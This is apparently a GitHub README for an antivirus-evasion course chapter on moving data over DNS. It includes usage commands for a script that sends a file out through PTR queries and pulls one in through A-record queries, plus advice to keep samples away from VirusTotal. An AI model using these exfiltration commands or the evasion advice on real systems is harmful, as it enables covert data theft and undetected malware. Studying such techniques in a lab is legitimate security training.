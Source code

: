 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 4 : DATA Transferring Technique by DNS Traffic (A Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH4

eBook chapter 5 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH5

Related Video : 

Video 1 for chapter 4: https://www.youtube.com/watch?v=TjOTdxnyvV0

Video 2 for chapter 5: https://www.youtube.com/watch?v=zKUg_0LC9fk



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_DNS2.sh help :

	Example A-Step1: (Server Side ) ./NativePayload_DNS2.sh -r
  
	Example A-Step2: (Client Side ) ./NativePayload_DNS2.sh -u text.txt DNSMASQ_IPv4 delay(sec)
  
	example IPv4:192.168.56.110 : ./NativePayload_DNS2.sh -r
  
	example IPv4:192.168.56.111 : ./NativePayload_DNS2.sh -u text.txt 192.168.56.110  0
  
	Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via PTR Queries to DNS server
	
  
	Example B-Step1: (Server Side ) ./NativePayload_DNS2.sh -d makedns test.txt mydomain.com
  
	Example B-Step2: (Client Side ) ./NativePayload_DNS2.sh -d getdata mydomain.com DNSMASQ_IPv4
  
	example IPv4:192.168.56.110 : ./NativePayload_DNS2.sh -d makedns text.txt google.com
  
	example IPv4:192.168.56.111 : ./NativePayload_DNS2.sh -d getdata google.com 192.168.56.110
  
	Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via A record Query
  
